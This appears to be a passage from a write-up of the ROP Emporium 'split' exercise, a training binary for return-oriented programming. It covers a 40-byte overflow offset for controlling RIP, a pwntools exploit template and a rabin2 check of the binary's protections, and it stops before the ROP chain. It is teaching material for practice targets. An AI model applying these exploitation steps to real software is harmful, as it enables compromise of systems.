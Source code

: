 ```
root@Valkyrie:~/Documents/courses/ropemporium/1-split# ./split
split by ROP Emporium
64bits
Contriving a reason to ask user for data...
> inputdata
Exiting
```

So the basic flow is similar to ret2win, no surprise there as this exercise is more looking at the assembly, but again the user is required to input data after the _"\> "_. Much like 0-Ret2Win the offset to our junk in order to control RIP is 40 bytes, and i am intentionally skipping the details in this step to focus more on the ROP Chain.

So again create the exploit template using pwntools

```
root@Valkyrie:~/Documents/courses/ropemporium/1-split# \
> pwn template --host 127.0.0.1 --port 31337 split --quiet > exploit.py
```

And again keeping with the standard, adding the 40-byte junk and payload definition

```
[...snip...]
# -- Exploit goes here --
junk = 'A'*40

payload = ""
payload += junk

io = start()
io.recvuntil('> ')
io.sendline(payload)
io.interactive()
```

So lets start reversing the binary and look for the gadgets that we have to use.

## Radare2 Reversing

Analyzing the binary first with rabin2, to have a look on its protections we can see that the `nx: true` also that `stripped: false` . So again a ROP Chain is the key to success!

```
root@Valkyrie:~/Documents/courses/ropemporium/1-split# rabin2 -I split
arch x86
baddr 0x400000
binsz 7137
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
```